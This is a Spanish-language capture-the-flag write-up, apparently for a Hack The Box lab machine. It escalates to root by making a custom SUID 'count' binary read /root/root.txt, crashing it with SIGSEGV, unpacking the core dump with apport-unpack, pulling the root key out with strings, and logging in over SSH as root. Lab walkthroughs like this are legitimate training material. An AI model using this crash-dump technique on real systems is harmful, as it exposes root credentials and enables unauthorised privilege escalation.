 `suid3num.py` encontró un binario SUID personalizado llamado `count` presente dentro del directorio `/opt/`. Los binarios SUID son aquellos ejecutables que son propiedad de otra persona, pero cuando los ejecuta otro usuario lo hacen con los permisos de su propietario.

### Explotación del binario count

Encontramos el archivo `count` y lo ejecutamos:

```bash
./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
```

```bash
ps
    PID TTY          TIME CMD
   2213 pts/4    00:00:00 bash
   2373 pts/4    00:00:00 count
   2374 pts/4    00:00:00 ps

kill -SIGSEGV 2373
fg
./count
Bus error (core dumped)
```

### Análisis del Core Dump

Ejecutamos la aplicación y accedemos a `/root/root.txt`. Cuando la aplicación solicita guardar el contenido en un archivo, presionamos `CTRL+Z` para enviar la aplicación a segundo plano. A continuación, ejecutamos `ps` para obtener el PID de la aplicación.

Los archivos de volcado del núcleo se encuentran en `/var/crashes`, y se pueden desempaquetar usando `apport-unpack` para ver los datos:

```bash
apport-unpack _opt_count.1000.crash /tmp/crash-report
```

Podemos usar `less` para ver el volcado de memoria, pero es un archivo binario y los datos son difíciles de examinar. `xxd` sería una buena opción, pero como estamos buscando la bandera, usar el comando `strings` es la mejor opción:

```bash
strings /tmp/crash-report/CoreDump
```

Con esto vemos la clave root. Ahora podemos conectarnos por SSH como root:

```bash
ssh -i secret.root root@10.10.11.120
```
